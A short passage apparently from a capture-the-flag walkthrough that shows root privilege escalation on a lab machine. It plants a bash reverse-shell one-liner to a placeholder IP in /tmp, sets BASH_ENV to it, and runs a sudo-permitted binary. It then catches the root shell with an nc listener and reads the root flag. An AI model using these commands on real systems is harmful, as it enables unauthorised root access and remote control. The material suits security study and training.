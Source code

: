 ```
echo 'bash -i >& /dev/tcp/<your-ip>/4444 0>&1' > /tmp/malicious.sh
```
```
chmod +x /tmp/malicious.sh
```
```
export BASH_ENV=/tmp/malicious.sh
```
```
sudo /usr/bin/systeminfo
```

Now, we start a listener:

```
nc -lvnp 4444
```

Once the command is executed with sudo, the shell script is sourced due to the BASH_ENV variable, and we get a reverse shell with elevated privileges

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.67] 37820
root@environment:/home/hish# ls
ls
backup
user.txt
root@environment:/home/hish# cd /root
cd /root
root@environment:~# ls
ls
root.txt
scripts
root@environment:~# cat root.txt
cat root.txt
***********7964741f5ad3fcca1fb54
root@environment:~# 
```